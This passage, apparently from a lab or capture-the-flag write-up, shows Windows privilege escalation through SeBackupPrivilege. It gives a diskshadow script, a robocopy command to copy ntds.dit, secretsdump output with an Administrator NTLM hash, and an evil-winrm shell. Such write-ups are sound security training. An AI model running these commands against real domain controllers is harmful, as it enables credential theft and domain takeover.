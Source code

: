 Since we can save any file, let's try to save the Administrator's NTDS.dit file instead. There are a few walkthroughs out there on how to exploit this using `diskshadow`.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}

This would involve creating a Disk `Z:` that would contain the `ntds.dit` file that we want. Put this into a text file:

```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

Then, run `robocopy` to copy the `ntds.dit` file over amd download it.&#x20;

```
robocopy /b E:\Windows\ntds . ntds.dit
download ntds.dit
```

We can then use `secretsdump.py` again to read the hashes.&#x20;

```
$ secretsdump.py -ntds ntds.dit -system system LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

This time, the hash works and we can get a shell using `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (438) (2) (1).png" alt=""><figcaption></figcaption></figure>
